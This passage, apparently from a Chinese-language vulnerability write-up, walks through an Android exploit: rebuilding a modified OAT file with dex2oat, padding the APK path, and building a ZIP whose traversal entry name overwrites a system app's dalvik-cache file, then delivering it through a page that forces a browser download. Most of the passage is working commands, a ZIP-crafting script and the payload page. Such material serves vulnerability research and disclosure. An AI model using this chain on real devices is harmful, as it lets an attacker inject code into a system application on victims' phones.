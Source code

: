 通过我们修改过的DEX来重建ART ELF file (OAT)文件，我们需要用dex2oat命令[[9]](https://www.blackhat.com/docs/asia-15/materials/asia-15-Sabanal-Hiding-Behind-ART.pdf)行来进行：

```
> adb pull /system/app/AccessControl/AccessControl.apk .
1462 KB/s (259095 bytes in 0.173s)
> sudo chattr +i AccessControl.apk
> cp AccessControl.apk Modded.apk
> zip -q Modded.apk classes.dex
> python -c 'print len("/system/app/AccessControl/AccessControl.apk")'
43
> python -c 'print 43-len("/data/local/tmp/Modded.apk")'
17
> mv Modded.apk Modded$(python -c 'print "1"*17').apk
> ls
AccessControl.apk  AccessControl.odex  AccessControl.odex.0x2004.dex  AccessControl.odex.art  classes.dex  Modded11111111111111111.apk  smali
> adb push Modded11111111111111111.apk /data/local/tmp
1144 KB/s (284328 bytes in 0.242s)
> adb shell dex2oat --dex-file=/data/local/tmp/Modded11111111111111111.apk --oat-file=/data/local/tmp/modified.oat
> adb pull /data/local/tmp/modified.oat .
1208 KB/s (172464 bytes in 0.139s)
> file modified.oat
modified.oat: ELF 32-bit LSB  shared object, ARM, EABI5 version 1 (GNU/Linux), dynamically linked, stripped
> sed -i 's/\/data\/local\/tmp\/Modded11111111111111111.apk/\/system\/app\/AccessControl\/AccessControl.apk/g;' modified.oat

```

最后，我们通过创建好的ZIP文件来对这个漏洞进行攻击：

```
> cat injectzip.py
import sys
from zipfile import ZipFile 

with ZipFile("cred.zip","w") as z:
  z.writestr(sys.argv[1],open(sys.argv[2],"rb").read())
> python injectzip.py ../../../../../../data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex /tmp/art/modified.oat
> zipinfo cred.zip
Archive:  cred.zip
Zip file size: 172750 bytes, number of entries: 1
?rw-------  2.0 unx   172464 b- stor 15-Nov-08 18:43 ../../../../../../data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex
1 file, 172464 bytes uncompressed, 172464 bytes compressed:  0.0%

```

这里有很多方法来触发漏洞，比如访问一个网页，强制让浏览器下载ZIP文件：

```
<html>
<head><script type="text/javascript">document.location="/cred.zip";</script></head>
<body></body>
</html>

```
